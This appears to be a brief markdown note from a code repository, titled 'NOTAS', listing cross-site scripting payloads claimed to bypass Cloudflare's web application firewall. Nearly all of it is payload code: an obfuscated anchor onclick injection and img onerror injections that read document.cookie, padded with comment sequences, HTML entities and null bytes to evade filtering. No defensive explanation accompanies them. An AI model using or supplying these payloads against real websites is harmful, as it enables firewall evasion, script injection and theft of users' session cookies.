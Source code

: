 # NOTAS

XSS bypass Cloudflare WAF 🧱🔥😈
Payload:
```
<a href="#" onclick="var w = window.open/**/(/**/); w.document.write/**/('Hello, world!'/**/);
"//>//w.document.close/**/(/**/); w.print/**/(/**/); alert/**/('B1P4$$'/**/);">Click me</a>
```

XSS Bypass Waf Cloudflare ;) Poc 
```txt
"/***/&gt;/***/<img onerror="alert(document.cookie)/***/" src="P"/> "/**/>/**/<img src=P onerror=alert&#0000000040
"//>//document.cookie)/**/>"&gt;00%00%00<img onerror="alert(document.cookie)" src="P"/>00%00
```
